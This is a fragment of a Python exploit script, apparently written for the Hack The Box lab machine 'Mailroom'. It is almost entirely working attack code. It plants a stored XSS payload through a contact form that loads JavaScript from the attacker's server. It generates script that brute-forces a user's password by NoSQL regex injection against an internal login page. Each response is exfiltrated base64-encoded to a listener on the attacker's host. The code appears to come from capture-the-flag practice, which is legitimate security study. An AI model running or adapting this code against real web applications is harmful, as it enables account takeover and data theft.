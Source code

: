 ```py

    def do_GET(self):
        global message_received
        # If the request has a "data" parameter
        if "data" in self.path:
            recv_data = re.findall(r"/\?data=(.*?)$", self.path)[0]
            base64_decoded = b64decode(recv_data).decode('UTF-8')
            self.data_received_event.set()
            if "Check your inbox for an email with your 2FA token" in base64_decoded:
                # print(base64_decoded)
                message_received = True

        return http.server.SimpleHTTPRequestHandler.do_GET(self)

    # Suppress logging of HTTP requests
    def log_message(self, format, *args):
        pass

# Function for running http server
def start_server(event):
    server_address = ("", 8000)
    httpd = http.server.HTTPServer(server_address, RequestHandler)
    httpd.RequestHandlerClass.data_received_event = event
    print("Server started on port 8000")
    httpd.serve_forever()

# Function for sending xss payload using "/contact.php"
def send_request(ip, fn):
    url = 'http://mailroom.htb/contact.php'
    payload = {
        'email': 'test@test.com',
        'title': 'This is a very important message',
        'message': f'This is a very important message!</p><script src="http://{ip}:8000/{fn}"></script><p>'
    }

    requests.post(url, data=payload)

# Generate xss template file used for brute-forcing password via nosql
def generate_xss_template(ip, fn):
    xss_payload = """var req1 = new XMLHttpRequest();
req1.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
req1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
const data = "email=tristan@mailroom.htb&password[$regex]=^{char}";
req1.send(data);
var resp = req1.response;

var req2 = new XMLHttpRequest();
req2.open("GET", "http://%s:8000/?data=" + btoa(resp), false);
req2.send();
""" % ip
    
    with open(fn, 'w') as fw:
        fw.write(xss_payload)


if __name__ == "__main__":
    xss_template = "xss_template.js"
    xss_payload = 'payload.js'

    if not os.path.isfile(xss_template):
        generate_xss_template(ip=lhost, fn=xss_template)

```